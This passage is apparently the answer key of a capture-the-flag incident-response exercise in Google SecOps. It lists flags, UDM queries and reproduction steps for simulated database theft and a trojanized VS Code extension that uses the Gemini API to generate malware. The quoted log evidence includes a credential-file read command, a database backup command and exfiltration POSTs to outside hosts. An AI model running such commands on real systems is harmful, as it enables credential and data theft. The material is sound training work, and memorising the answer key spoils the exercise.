* **Question:** Armed with credentials discovered in the stolen document, what privileged service account did the attacker authenticate to from the compromised employee’s workstation to access the internal database server? (expected format: `username`)
* **Flag / Value:** `svc_dbadmin`
* **Chronicle Location:** **SIEM Search** (`/search`)
* **Time Range:** `2026-10-15 00:00:00 UTC` to `2026-10-31 23:59:59 UTC`
* **UDM Query:**
  ```sql
  target.hostname = /.*CYM-DB.*/ AND metadata.event_type = "USER_LOGIN"
  ```
* **Step-by-Step Reproduction:**
  1. Filter authentication events targeting the production database server `CYM-DB-01.cymbal.corp`.
  2. Cross-reference source IP `10.240.12.65` (Elena's workstation `CYM-DATA-WS-007`).
  3. Identify NTLM authentication using the elevated account: `svc_dbadmin`.



---

### Flag 11 (S2-F5): Raw Database Dump File Name
* **Question:** Once authenticated to that internal server, what is the file name of the raw database dump exported by the attacker prior to compressing it into an archive? (expected format: `file_name.extension`)
* **Flag / Value:** `cymbal_cust_q3.bak`
* **Chronicle Location:** **SIEM Search** (`/search`)
* **Time Range:** `2026-10-15 00:00:00 UTC` to `2026-10-31 23:59:59 UTC`
* **UDM Query:**
  ```sql
  target.process.command_line = /.*sqlcmd.*/ AND principal.hostname = /.*CYM-DB.*/
  ```
* **Step-by-Step Reproduction:**
  1. Search for command-line execution of SQL Server administration tools (`sqlcmd.exe`).
  2. Open the event details and examine the command-line arguments:
     ```cmd
     sqlcmd.exe -S localhost -E -Q "BACKUP DATABASE [Cymbal_Production] TO DISK='C:\ProgramData\MSSQL\Backup\cymbal_cust_q3.bak' WITH FORMAT, COMPRESSION"
     ```
  3. The raw exported database dump file is `cymbal_cust_q3.bak`.



---

### Flag 12 (S2-F6): Full Database Exfiltration URL
* **Question:** What is the full exfiltration URL (including destination IP and port) used by the attacker to transfer the compressed archive? (expected format: `http://8.8.8.8:0000/path/file_name.extensions`)
* **Flag / Value:** `http://142.11.200.188:8888/upload/cymbal_q3_exfil.tar.zst`
* **Chronicle Location:** **SIEM Search** (`/search`)
* **Time Range:** `2026-10-15 00:00:00 UTC` to `2026-10-31 23:59:59 UTC`
* **UDM Query:**
  ```sql
  principal.user.userid = "svc_dbadmin" AND metadata.event_type = "NETWORK_HTTP"
  ```
* **Step-by-Step Reproduction:**
  1. Search outbound web proxy traffic associated with user `svc_dbadmin` on staging IP `10.240.12.100`.
  2. Inspect the high-volume HTTP POST event captured by Zscaler NSS.
  3. Review the raw proxy log fields:
     ```http
     serverip=142.11.200.188
     requestmethod=POST
     url=http://142.11.200.188:8888/upload/cymbal_q3_exfil.tar.zst
     ```
  4. The complete exfiltration URL is `http://142.11.200.188:8888/upload/cymbal_q3_exfil.tar.zst`.



---

## 5. Scenario 3: Rogue Synthesis (AI Misuse)

### Investigation Background
An intelligence bulletin from Google Threat Intelligence Group (GTIG) titled *"AI Threat Tracker: Advances in Threat Actor Usage of AI Tools"* detailed how state-sponsored adversaries and cybercriminals are abusing generative AI for **Just-in-Time code generation**. On developer workstation `CYM-DEV-WS-019`, developer `alex.chen` installed a trojanized VS Code extension. The extension queried the Gemini API mid-execution to generate polymorphic C code, invoked local GCC to compile the payload, performed process hollowing into SYSTEM, harvested cloud tokens from the Google Cloud SDK directory, exfiltrated credentials to a pseudo-telemetry endpoint, and pivoted into the CI/CD environment to tamper with production build scripts.

---

### Flag 13 (S3-F1): Developer Username Initiating Model Request
* **Question:** What developer username initiated a request to the model used by our AI threat? (expected format: `user.name`)
* **Flag / Value:** `alex.chen`
* **Chronicle Location:** **SIEM Search** (`/search`)
* **Time Range:** `2026-10-15 00:00:00 UTC` to `2026-10-31 23:59:59 UTC`
* **UDM Query:**
  ```sql
  target.hostname = /.*generativelanguage\.googleapis\.com/ OR target.url = /.*generativelanguage.*/
  ```
* **Step-by-Step Reproduction:**
  1. Execute the query to isolate web proxy connections to Google Gemini API endpoints.
  2. Review the **Gemini Summary**:
     > *"Two web proxy events were identified for users `alex.chen` and `sarah.jenkins` at Denver HQ, both accessing AI services. `alex.chen` interacted with the Google Gemini API..."*
  3. The developer username is `alex.chen`.



---

### Flag 14 (S3-F2): Malicious Package Downloaded Prior to API Query
* **Question:** What package was downloaded immediately prior to the API query? (expected format: `File_Name.extension`)
* **Flag / Value:** `SyntaxOptimizer-2.1.4.vsix`
* **Chronicle Location:** **SIEM Search** (`/search`)
* **Time Range:** `2026-10-15 20:00:00 UTC` to `2026-10-15 22:00:00 UTC`
* **UDM Query:**
  ```sql
  target.file.full_path = /.*syntaxoptimizer.*/ OR target.url = /.*syntaxoptimizer.*/
  ```
* **Step-by-Step Reproduction:**
  1. Search for file downloads and web proxy requests on `CYM-DEV-WS-019` immediately preceding the Gemini API request.
  2. Observe the download of a trojanized Visual Studio Code extension package from `marketplace.visualstudio.com.cdn-cache.net`.
  3. The downloaded extension package name is `SyntaxOptimizer-2.1.4.vsix`.



---

### Flag 15 (S3-F3): Compiled Executable Dropped into Staging
* **Question:** Following the outbound API request, what compiled executable was dropped into the local directory used by the malware for staging? (expected format: `file_name.extension`)
* **Flag / Value:** `sys_worker.exe`
* **Chronicle Location:** **SIEM Search** (`/search`)
* **Time Range:** `2026-10-15 00:00:00 UTC` to `2026-10-31 23:59:59 UTC`
* **UDM Query:**
  ```sql
  target.process.command_line = /.*gcc.*cache_worker.*/
  ```
* **Step-by-Step Reproduction:**
  1. Trace process launches spawned by Node.js (`node.exe` running the extension daemon).
  2. Inspect the MinGW GCC compiler invocation on `CYM-DEV-WS-019`:
     ```cmd
     gcc.exe -O2 C:\Users\alex.chen\AppData\Local\Temp\cache_worker.c -o C:\Users\alex.chen\AppData\Local\Temp\sys_worker.exe
     ```
  3. The compiled binary output dropped into the local staging folder is `sys_worker.exe`.



---

### Flag 16 (S3-F4): Cloud SDK File Read to Harvest Tokens
* **Question:** After elevating privileges via process hollowing on the developer's workstation, what existing file in the user's local cloud SDK configuration directory was read by the injected process to harvest tokens? (expected format: `file_name.extension`)
* **Flag / Value:** `credentials.db`
* **Chronicle Location:** **SIEM Search** (`/search`)
* **Time Range:** `2026-10-15 20:00:00 UTC` to `2026-10-15 22:00:00 UTC`
* **UDM Query:**
  ```sql
  target.file.full_path = /.*(credentials|\.db|tokens).*/ OR target.process.command_line = /.*(credentials|\.db|tokens).*/
  ```
* **Step-by-Step Reproduction:**
  1. Run the query to check file access and token harvesting commands following process injection.
  2. Inspect the process event triggering security alert `T1003.008 (Cloud Tokens)`:
     ```cmd
     cmd.exe /c "type C:\Users\alex.chen\.gcloud\credentials.db"
     ```
  3. The local cloud SDK configuration file read to harvest authentication tokens is `credentials.db`.



---

### Flag 17 (S3-F5): Masqueraded Telemetry Exfiltration Domain
* **Question:** Shortly after the local tokens were harvested on the workstation, the stolen data was exfiltrated via an outbound HTTP POST request to an external URI path masquerading as a telemetry endpoint. To what external domain was the data sent? (expected format: `domain-name.com`)
* **Flag / Value:** `dev-metrics-cdn.com`
* **Chronicle Location:** **SIEM Search** (`/search`)
* **Time Range:** `2026-10-15 00:00:00 UTC` to `2026-10-31 23:59:59 UTC`
* **UDM Query:**
  ```sql
  metadata.event_type = "NETWORK_HTTP" AND target.url = /.*telemetry.*/
  ```
* **Step-by-Step Reproduction:**
  1. Search for web proxy traffic matching pseudo-telemetry endpoints.
  2. Review the outbound HTTP POST connection originating from `CYM-DEV-WS-019`:
     ```http
     POST https://dev-metrics-cdn.com/api/v2/telemetry HTTP/1.1
     Host: dev-metrics-cdn.com
     User-Agent: Mozilla/5.0
     ```
  3. The destination exfiltration domain is `dev-metrics-cdn.com`.



---

### Flag 18 (S3-F6): Overwritten Persistence Script on CI Runner
* **Question:** Using the harvested service account to pivot laterally from the developer's workstation to a secondary server, what PowerShell script was overwritten by the attacker via PowerShell to establish persistence? (expected format: `file_name.extension`)
* **Flag / Value:** `build_production.ps1`
* **Chronicle Location:** **SIEM Search** (`/search`)
* **Time Range:** `2026-10-15 00:00:00 UTC` to `2026-10-31 23:59:59 UTC`
* **UDM Query:**
  ```sql
  principal.hostname = /CYM-CI-RUNNER-01/ OR target.hostname = /CYM-CI-RUNNER-01/
  ```
* **Step-by-Step Reproduction:**
  1. Investigate lateral movement from `CYM-DEV-WS-019` using the harvested `svc_cicd_deploy` credentials to CI server `CYM-CI-RUNNER-01.cymbal.corp` (`10.240.12.85`).
  2. Inspect file modification events under directory `C:\BuildRunner\scripts\`.
  3. Identify the targeted production pipeline script modified to maintain persistence: `build_production.ps1`.



---

## 6. Master Flag Reference & Reproduction Table

| # | Scenario | Challenge Description | Flag Value | Exact Format Required | Primary Log Source |
|:---:|:---|:---|:---|:---|:---|
| **1** | Deceptive Click | Compromised workstation hostname | `CYM-DEN-W10-042.CYMBAL.CORP` | `FAKE-HOST-NAME-000.false.name` | SOAR Case 54 Alert Summary |
| **2** | Deceptive Click | Malicious update referer blog | `marketingtrends-insider.com` | `domainname.com` | Zscaler Proxy HTTP Referer |
| **3** | Deceptive Click | Target process ID (injection) | `624` | `000` | Sysmon Event 8 (svchost.exe) |
| **4** | Deceptive Click | Kerberoasting SPN | `MSSQLSvc/CYM-DB-01.cymbal.corp:1433` | `XXXXXXX/FAKE-HOST-NAME-00.false.name:0000` | Security Event 4769 TGS |
| **5** | Deceptive Click | Lateral movement username | `svc_backup` | `username` | Security Event 4624 Logon |
| **6** | Deceptive Click | Financial data staging archive | `Financial_Audit_2026.zip` | `File_Name.extension` | PowerShell Compress-Archive |
| **7** | OAuth Heist | Phishing credential domain | `sso-cymbal-portal.com` | `domainname.com` | Proxy HTTP POST & GTI IOCs |
| **8** | OAuth Heist | Deleted MFA alert subject line | `Okta: A new MFA factor was added` | `Hello! This is a fake email subject line` | Gmail Audit (Permanent Delete) |
| **9** | OAuth Heist | Stolen architecture document | `Cymbal_Q3_Database_Architecture_and_Service_Accounts.pdf` | `File_Name.extension` | Google Workspace Drive Audit |
| **10** | OAuth Heist | Authenticated DBA account | `svc_dbadmin` | `username` | NTLM Authentication Event |
| **11** | OAuth Heist | Raw database backup file name | `cymbal_cust_q3.bak` | `file_name.extension` | Sysmon Event 1 (sqlcmd.exe) |
| **12** | OAuth Heist | Database dump exfiltration URL | `http://142.11.200.188:8888/upload/cymbal_q3_exfil.tar.zst` | `http://8.8.8.8:0000/path/file_name.extensions` | Zscaler Outbound HTTP POST |
| **13** | Rogue Synthesis | Initiating developer username | `alex.chen` | `user.name` | Google Gemini API Audit Log |
| **14** | Rogue Synthesis | Downloaded malicious extension | `SyntaxOptimizer-2.1.4.vsix` | `File_Name.extension` | VS Code Marketplace CDN Proxy |
| **15** | Rogue Synthesis | Dropped compiled staging binary | `sys_worker.exe` | `file_name.extension` | MinGW GCC Process Launch |
| **16** | Rogue Synthesis | Cloud SDK token database file | `credentials.db` | `file_name.extension` | Alert T1003.008 Cloud Tokens |
| **17** | Rogue Synthesis | Telemetry exfiltration domain | `dev-metrics-cdn.com` | `domain-name.com` | Outbound HTTP POST Telemetry |
| **18** | Rogue Synthesis | Overwritten CI/CD build script | `build_production.ps1` | `file_name.extension` | CI Runner PowerShell Overwrite |

---

## 7. Chronicle UDM Quick-Run Replication Cheat Sheet

To replicate or demonstrate this investigation in Google SecOps in under 15 minutes, execute the following UDM queries in order:

```sql
// --- SCENARIO 1: DECEPTIVE CLICK ---
// Q1: Identify compromised Denver host in SOAR Cases (Case 54) or via SIEM:
metadata.event_type = "PROCESS_LAUNCH" AND target.process.command_line = /.*powershell.*-enc.*/

// Q2: Compromised referer domain:
principal.hostname = "CYM-DEN-W10-042.CYMBAL.CORP" AND metadata.event_type = "NETWORK_HTTP"

// Q3: Process hollowing target svchost PID:
principal.hostname = "CYM-DEN-W10-042.CYMBAL.CORP" AND target.process.file.full_path = /.*svchost\.exe/

// Q4: Kerberoasting Event 4769 SPN:
metadata.product_event_type = "4769" AND target.hostname = "CYM-DC-01"

// Q5 & Q6: Lateral account and staging zip file:
target.user.userid = "svc_backup" OR principal.user.userid = "svc_backup"


// --- SCENARIO 2: OAUTH HEIST ---
// Q7: Phishing POST domain:
principal.user.userid = "elena.rostova" AND network.http.method = "POST"

// Q8: Purged Gmail alert subject:
metadata.log_type = "GSUITE_GMAIL" AND principal.user.userid = "elena.rostova@cymbal-investments.com"

// Q9: Stolen architecture document from Google Drive:
principal.ip = "23.234.119.110" OR target.ip = "23.234.119.110"

// Q10 & Q11: Database admin service account and sqlcmd backup dump:
target.process.command_line = /.*sqlcmd.*/ AND principal.hostname = /.*CYM-DB.*/

// Q12: Full database exfiltration URL:
principal.user.userid = "svc_dbadmin" AND metadata.event_type = "NETWORK_HTTP"


// --- SCENARIO 3: ROGUE SYNTHESIS ---
// Q13: Developer querying Gemini API:
target.hostname = /.*generativelanguage\.googleapis\.com/ OR target.url = /.*generativelanguage.*/

// Q14: Downloaded malicious VSIX extension package:
target.file.full_path = /.*syntaxoptimizer.*/ OR target.url = /.*syntaxoptimizer.*/

// Q15: Compiled executable dropped into staging directory:
target.process.command_line = /.*gcc.*cache_worker.*/

// Q16: Cloud SDK credentials file read:
target.file.full_path = /.*(credentials|\.db|tokens).*/ OR target.process.command_line = /.*(credentials|\.db|tokens).*/

// Q17: Telemetry exfiltration domain:
metadata.event_type = "NETWORK_HTTP" AND target.url = /.*telemetry.*/

// Q18: Overwritten build script on CI runner:
principal.hostname = /CYM-CI-RUNNER-01/ OR target.hostname = /CYM-CI-RUNNER-01/
```

---

## 8. Summary of Detection & Hardening Recommendations

1. **Active Directory & Identity Security:**
   * Enforce **AES-256** Kerberos ticket encryption across domain accounts and deprecate RC4 to neutralize Kerberoasting.
   * Migrate legacy service accounts to **Group Managed Service Accounts (gMSAs)**.
2. **Cloud & SaaS Application Governance:**
   * Disable third-party OAuth app consent for non-admin users in Google Workspace and Microsoft Entra ID.
   * Enable real-time detection rules for anomalous Gmail API calls matching `messages.trash` and `messages.delete`.
3. **Developer Workstation & AI Endpoint Protection:**
   * Enforce **AppLocker** or Application Control to block compilers (`gcc.exe`, `clang.exe`, `cl.exe`) in user-writable directories (`AppData\Local\Temp`).
   * Protect local CLI credential directories (`%USERPROFILE%\.gcloud`, `~/.aws`, `~/.azure`) with EDR file access restrictions.
   * Implement strict code-signing validation for all IDE plugins and extensions.
